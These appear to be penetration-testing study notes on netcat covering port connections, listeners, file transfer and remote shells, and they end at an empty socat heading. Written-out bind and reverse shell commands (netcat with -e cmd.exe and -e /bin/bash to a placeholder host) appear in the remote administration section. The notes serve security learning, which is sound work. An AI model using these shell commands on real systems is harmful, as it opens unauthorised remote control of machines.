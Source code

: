 # PRACTICAL TOOLS
+ Modern security professional uses various tools but there may be limited ones in target system after gaining access
+ So we learn how to deliver our tools to target machine and so on...

# 1 - NETCAT
+ one of original tools for penetration testers
+ It reads and writes data through network using TCP/UDP protocols

## 1.1 - CONNECTING TO A TCP/UDP PORT
+ netcat can run in client/server mode
+ We can connect to remote server using IP/PORT of the server

```bash
# Connect to server assigned <DESTINATION IP> with port <PORT>
nc -n -v <DESTINATION IP> <PORT>
# -n prevents name resolution and -v is verbose mode
```

## 1.2 - LISTENING ON A TCP/UDP PORT
+ Usefull for recieving in network connections
+ Making a chat server using netcat
```bash
# server for listening
nc -lvnp <PORT>
# -l is listening mode
# -v is verbose mode
# -n is no name resolution mode
# -p is specified port

# client
nc <IP ADDRESS> <PORT>

# After connecting enter text to chat
```


## 1.3 - LISTENING ON A TCP/UDP PORT
+ We can transfer files using netcat like server/client chat example with some minor differences
+ We should guess when the transfer is done based on file size
+ We can confirm that the file is transfered successfully by calculating sha256 hash
```bash
# Server which recieves the file
nc -lvnp <PORT> > /path/to/file

# Client which sends the file
nc <IP ADDRESS> <PORT> < /path/to/file
```

## 1.4 - REMOTE ADMINISTRATION WITH NETCAT
+ netcat has command redirection
+ It can redirect input/output of an executable to a TCP/UDP port

![01](./images/01)

Bob is running Windows and Alice is running Linux\
In first scenario Alice wants to connect to Bob's machine and do stuff

**netcat bind shell scenario**
+ Bob starts netcat as server and bind `cmd.exe` to port 4444
+ netcat bind `cmd.exe` to port 4444 and redirect input/output/error of `cmd.exe` to port 4444
+ So anyone connecting to Bob's IP address on port 4444 wil be prompted `cmd.exe` and his WIndows comand prompt shell
```bash
# Bob's Windows machine as a server
nc -lvnp 4444 -e cmd.exe

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444
# this will result Bob's computer cmd.exe
```


![02](./images/02)
In second scenario Bob wants to connect to Alice's computer and do stuff
**netcat reverse shell scenario**
+ First Bob starts netcat on port 4444 on his Windows machine
+ Alice can send reverse shell from her Linux machine to Bob

```bash
# Bob's Windows machine as a server
nc -lvnp 4444

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444 -e /bin/bash
# this will result reverse shell from Alice's computer to Bob on port 4444
```

+ Take some time to read about **bind**/**reverse** shell scenario

# 2 - SOCAT
